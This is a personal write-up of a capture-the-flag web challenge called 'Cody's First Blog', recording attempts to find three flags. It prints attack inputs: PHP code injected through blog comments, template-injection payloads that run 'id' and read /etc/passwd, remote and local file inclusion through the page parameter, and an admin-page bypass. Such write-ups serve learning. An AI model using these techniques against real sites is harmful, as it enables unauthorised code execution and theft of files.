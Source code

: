 # Cody's First Blog

## 1. Flag 1

Tried XSS in comments input `<script>alert(1)</script>` no luck.

Checked the banner had `PHP/5.5.9-1ubuntu4.24`

Tried `<?php echo "hello world!"?>` in comment input and submit. 

Got the flag.

## 2. Flag 2

Viewed the HTML source code found a comment line 

```php+HTML
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

Tried `http://34.74.105.127/b7370ccb5d/?page=admin.auth.inc`

Got Admin login page. 

Tried some brute force, didn't work. 

Tried `http://34.74.105.127/b7370ccb5d/?page=aaa`

Got  error,![image-20200510141012566](/Users/rajsharm/Library/Application Support/typora-user-images/image-20200510141012566.jpg)

Script is adding .php to whatever value is being passed. 

Tried some template injection as well

```php
{php}echo `id`;{/php}
{php}$s = file_get_contents('/etc/passwd',NULL, NULL, 0, 100); var_dump($s);{/php}
```

None of them work. 

Intestingly noticed `:` in `?page=aaa:` didn't throw any error.

Tried remote page inclusion

`http://34.74.105.127/b7370ccb5d/?page=http://dude0.co/test`

Didn't work, the page was not accessible. The intro was right.

Tried, `http://34.74.105.127/b7370ccb5d/?page=http://localhost/index` , it worked.

But need to find a way to inject code to.

Interestingly, after some reseach come to know that `admin.auth.inc` is three files.

`admin` , `auth`, `inc` , when used in include, all of them are included. 

Tried, `http://34.74.105.127/b7370ccb5d/?page=admin` no luck

Tried, `http://34.74.105.127/b7370ccb5d/?page=auth` no luck

Tried, `http://34.74.105.127/b7370ccb5d/?page=admin.inc` , BAAMM !! Got into admin page Directly. 

**Flag was at the bottom.**

## 3. Flag 3

With admin page access We have the ability to approve any comments. Good now we have Server XSS. 

Approved my previous comment made during Flag 1. 

Loaded,`http://34.74.105.127/b7370ccb5d/?page=http://localhost/index`

Got Hello World! in page. 

Great 

Now commented `<?php echo readfile('index.php');?>` and approved it.

`http://34.74.105.127/b7370ccb5d/?page=http://localhost/index`

Loaded the page again, 

Got the source code and it included flag.



## Lessons

Wasted much of my time in Template injection vulnerability, tried injections for several template in php like twig and others. None of them worked. 

Also wasted much of the time in file inclusion, trying to inlude the file from remote server. Didn't work either.

Lesson: Stick to basic, analyze the problem, read the descriptions in page. Tried to prove the descriptions wrong with one or two attempts don't waste most of the time on that. They are usually correct. Check the banner and try to use banner specific attack instead of wasting time on random attacks.








